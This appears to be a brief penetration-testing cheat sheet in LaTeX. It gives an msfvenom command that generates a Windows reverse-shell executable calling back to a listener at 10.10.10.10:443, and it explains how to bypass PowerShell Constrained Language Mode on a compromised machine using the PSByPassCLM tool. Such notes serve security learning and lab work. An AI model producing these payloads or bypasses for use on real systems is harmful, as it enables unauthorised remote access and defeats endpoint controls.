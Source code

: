 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\NormalTok}[1]{#1}
\begin{document}
\hypertarget{create-a-reverse-shell-with-msfvenom}{%
\section*{Create a reverse shell with msfvenom}\label{create-a-reverse-shell-with-msfvenom}}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{msfvenom}\NormalTok{ -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f exe -o reverse.exe }
\end{Highlighting}
\end{Shaded}

\hypertarget{bypass-constraint-language-in-a-powershell}{%
\section*{Bypass Constraint Language in a PowerShell}\label{bypass-constraint-language-in-a-powershell}}

It's possible that sometimes, when you gain access to a windows machine and you have a PowerShell, that this is on
\textbf{constraint language} context. In the victim machine, you can check that with the \texttt{\$ExecutionContext.SessionState.LanguageMode}
command.

With the use of \href{https://github.com/padovah4ck/PSByPassCLM}{PSByPassCLM}, by creating
a new reverse shell, you can bypass this context.
\end{document}
